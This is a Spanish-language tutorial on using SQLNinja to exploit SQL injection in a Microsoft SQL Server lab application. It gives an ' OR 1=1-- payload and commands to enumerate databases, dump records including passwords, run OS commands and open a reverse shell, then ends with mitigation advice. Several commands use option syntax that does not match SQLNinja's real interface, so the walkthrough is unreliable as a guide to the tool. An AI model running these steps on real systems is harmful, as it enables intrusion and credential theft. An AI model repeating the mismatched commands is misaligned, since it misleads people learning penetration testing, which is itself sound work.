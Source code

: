 ### Técnica: Uso de **SQLNinja** para detectar y explotar vulnerabilidades de inyección SQL

#### ¿Qué es SQLNinja?

**SQLNinja** es una herramienta especializada en la explotación de inyecciones SQL en bases de datos Microsoft SQL Server. Su objetivo principal es automatizar la explotación de este tipo de vulnerabilidades y obtener acceso al servidor.

### Paso 1: Instalación y configuración de SQLNinja

En Kali Linux, **SQLNinja** suele venir preinstalado. Si no lo tienes, puedes instalarlo fácilmente desde los repositorios de Kali.

1. Instalar SQLNinja

    (si no está instalado):

   ```bash
   sudo apt-get update
   sudo apt-get install sqlninja
   ```

### Paso 2: Preparación de la aplicación vulnerable

Para esta práctica, utilizaremos una aplicación web vulnerable (puedes usar Badstore o cualquier otra aplicación vulnerable que uses en tu entorno de pruebas). Asegúrate de que la aplicación esté corriendo en el servidor y que la base de datos sea Microsoft SQL Server. Si no es SQL Server, SQLNinja no funcionará.

### Paso 3: Verificar la vulnerabilidad con SQLNinja

1. **Obtener una URL vulnerable**:

   - Navega a la aplicación web que estás probando y encuentra una página que realice consultas a la base de datos basadas en la entrada del usuario (por ejemplo, un formulario de búsqueda de productos).

   - Una vez que encuentres un campo vulnerable a la inyección SQL, usa un payload simple como:

     ```bash
     ' OR 1=1--
     ```

   - Si el sitio devuelve resultados inesperados o accesos no autorizados, es probable que sea vulnerable.

2. **Ejecutar SQLNinja**:

   - Abre una terminal en Kali Linux y ejecuta 

     SQLNinja

     . La estructura básica del comando es la siguiente:

     ```bash
     sqlninja -u "http://localhost/vulnerable_page.php?id=1" -v
     ```

   - En este caso, reemplaza la URL con la ruta específica de tu aplicación vulnerable.

   - La opción `-v` habilita el modo verbose para que puedas ver más detalles sobre lo que SQLNinja está haciendo.

### Paso 4: Explotar la vulnerabilidad

SQLNinja tiene varias funciones para explotar vulnerabilidades de inyección SQL en Microsoft SQL Server. Algunos de los principales ataques que puedes realizar son:

#### 1. **Obtener información de la base de datos**

- **SQLNinja** puede extraer información del sistema de base de datos, como las tablas, columnas y registros. Una vez que hayas identificado la vulnerabilidad, SQLNinja puede obtener toda esta información.

- Para listar las bases de datos disponibles:

  ```sql
  sqlninja -u "http://localhost/vulnerable_page.php?id=1" --dbs
  ```

#### 2. **Enumerar las tablas y columnas**

- Una vez que tengas acceso a la base de datos, puedes listar las tablas y las columnas dentro de esas tablas. Para hacerlo:

  ```sql
  sqlninja -u "http://localhost/vulnerable_page.php?id=1" --tables
  ```

#### 3. **Obtener datos sensibles (extracción de registros)**

- Si deseas extraer datos específicos (por ejemplo, usuarios o contraseñas) de una tabla en particular, puedes usar SQLNinja para seleccionar y extraer los registros:

  ```sql
  sqlninja -u "http://localhost/vulnerable_page.php?id=1" --dump
  ```

#### 4. **Escalar privilegios**

- SQLNinja también tiene módulos para intentar obtener permisos más altos en la base de datos y ejecutar comandos del sistema directamente en el servidor de la base de datos, dependiendo de los permisos del usuario comprometido.

- Puedes usarlo para ejecutar comandos del sistema si el servidor SQL tiene permisos administrativos:

  ```sql
  sqlninja -u "http://localhost/vulnerable_page.php?id=1" --os-cmd "net user"
  ```

#### 5. **Explotar la vulnerabilidad para obtener una shell inversa**

- Uno de los usos más peligrosos de SQLNinja es obtener una shell en el sistema a través de la vulnerabilidad de inyección SQL. Si puedes escalar privilegios, puedes intentar una shell inversa para tener control total sobre el servidor.

- El comando para lanzar una shell inversa es:

  ```sql
  sqlninja -u "http://localhost/vulnerable_page.php?id=1" --reverse-shell
  ```

### Paso 5: Mitigación de la inyección SQL

1. **Usar consultas preparadas**: Siempre utiliza **consultas preparadas** o **parametrizadas** en lugar de construir consultas SQL dinámicas con la entrada del usuario.
2. **Validar las entradas del usuario**: Implementa una validación estricta en todas las entradas del usuario. No permitas caracteres especiales como comillas o guiones que se utilizan en ataques SQL.
3. **Escapar las entradas del usuario**: Si no puedes usar consultas preparadas, asegúrate de escapar adecuadamente los caracteres especiales antes de incluir las entradas del usuario en consultas SQL.
4. **Configurar permisos mínimos**: Asegúrate de que las cuentas de base de datos utilizadas por tu aplicación web tengan los permisos mínimos necesarios para realizar sus operaciones. Evita usar cuentas con permisos administrativos en la base de datos.
5. **Auditorías y pruebas regulares**: Realiza auditorías regulares de seguridad y pruebas de penetración para identificar y corregir vulnerabilidades antes de que sean explotadas.
